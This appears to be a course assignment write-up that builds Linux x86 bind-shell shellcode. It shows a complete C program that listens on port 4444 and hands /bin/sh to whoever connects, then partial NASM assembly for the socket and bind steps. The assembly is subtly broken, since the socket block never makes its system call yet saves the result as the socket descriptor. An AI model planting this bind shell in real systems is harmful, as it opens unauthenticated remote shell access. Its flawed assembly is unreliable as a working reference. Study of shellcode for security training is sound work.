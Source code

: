 ```yaml
---
title:  Assignment 1
description: Create a Shell Bind TCP shellcode
order: 1
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

Before we dive into assembly, let's first write a simple program in c to model the functionality.

```c
/* bind_tcp_model.c
 *  - Bind to a socket, listen for a connection, provide shell.
 */

#include <sys/socket.h>	// socket, AF_INET, SOCK_STREAM
#include <unistd.h>	// dup2
#include <netinet/in.h>	// sockaddr, htons, INADDR_ANY

int main() {
	int port = 4444;
	int sockfd, connfd;
	struct sockaddr_in sockaddr;

	// Build socket

	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// Bind to socket

	sockaddr.sin_family = AF_INET;
	sockaddr.sin_port = htons(port);
	sockaddr.sin_addr.s_addr = INADDR_ANY;

	bind(sockfd, (struct sockaddr *) &sockaddr, sizeof(sockaddr));

	// Listen on socket

	listen(sockfd, 0);

	// Accept a connection

	connfd = accept(sockfd, 0, 0);

	// Route i/o through connection

	dup2(connfd, 0);
	dup2(connfd, 1);
	dup2(connfd, 2);

	// Execute /bin/sh

	execve("/bin/sh", 0, 0);

	return 0;
}

```

Since the first step is creating a socket, let's look at the syscall *socketcall*, **102**.
```c
int socketcall(int call, unsigned long *args);
```
The syscall *socketcall* seems to accept a *call* parameter, so we'll take a look at those too.
```bash
> grep SYS_ /usr/include/linux/net.h

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
...
```

To create a socket we'll need SYS_SOCKET, **1**, which from our c model we know takes the following form:
```c
int socket(int domain, int type, int protocol);
```

Let's try to put all this down in assembly.

```nasm
; bind_shell_tcp.nasm
;  - Bind to a socket, listen for a connection, provide shell.

global _start

section .text
_start:
        ; int socketcall(int call, unsigned long *args)
        ; int socket(int domain, int type, int protocol)
        ; eax = 0x66 (socketcall)
        ; ebx = 0x01 (socket)
        ; ecx = esp
        ; esp => |0x00000002|0x00000001|0x00000000|
        ;          AF_INET  SOCK_STREAM    null

        xor eax, eax
        mov al, 0x66
        xor ecx, ecx
        push ecx
        inc ecx
        push ecx
        xor ebx, ebx
        mov bl, cl
        inc ecx
        push ecx
	
	mov esi, eax    ; save sockfd
        add esp, 0x10   ; clean stack

```

Great!  Next up is bind.
```c
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```

Now, in assembly:
```nasm
	; int socketcall(int call, unsigned long *args)
        ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen) 
        ; struct sockaddr_in {short int sin_family, unsigned short int sin_port, struct in_addr sin_addr, 0}
        ; eax = 0x66 (socketcall)
        ; ebx = 0x02 (bind)
        ; ecx = esp      
        ; esp => |----------|-[esp +24]-|0x00000018|0x0002|0x115C|0x00000000|0x00000000|
        ;           sockfd       addr     addrlen  AF_INET  port  INADDR_ANY  

        xor eax, eax
        mov al, 0x66
        xor ebx, ebx
        mov bl, 0x2
        xor ecx, ecx
        push ecx
        push word 0x5c11  
        push word 0x2
        mov edi, esp
        push 0x18
        push edi
        push esi
        mov ecx, esp
        int 0x80

        add esp, 0x38   ; clean stack
```

<br>
{% include preamble.md %}


[&lt;&lt; Go Back]({{ site.baseurl }})
